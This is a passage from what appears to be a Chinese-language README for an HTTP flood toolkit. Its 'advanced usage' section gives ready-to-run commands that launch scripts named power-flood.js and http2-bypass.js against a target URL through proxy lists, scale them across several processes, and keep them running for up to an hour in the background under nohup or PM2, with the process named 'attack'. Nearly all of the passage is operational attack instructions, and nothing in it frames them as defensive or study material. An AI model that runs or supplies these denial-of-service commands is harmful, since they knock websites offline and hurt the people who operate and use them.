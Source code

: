 
## 🎓 进阶使用

### 多进程模式

```bash
# 使用 4 个进程（推荐）
node scripts/recommended/power-flood.js \
  --url https://target.com \
  --proxy config/proxies/global.txt \
  --duration 300 \
  --processes 4
```

### 后台运行

```bash
# 使用 nohup
nohup node scripts/recommended/http2-bypass.js \
  --url https://target.com \
  --proxy config/proxies/global.txt \
  --duration 3600 > attack.log 2>&1 &

# 查看日志
tail -f attack.log
```

### 使用 PM2 管理

```bash
# 安装 PM2
npm install -g pm2

# 启动脚本
pm2 start scripts/recommended/http2-bypass.js --name "attack" -- \
  --url https://target.com \
  --proxy config/proxies/global.txt \
  --duration 3600

# 查看状态
pm2 status

# 查看日志
pm2 logs attack

# 停止
pm2 stop attack
```

---

## 🆘 技术支持
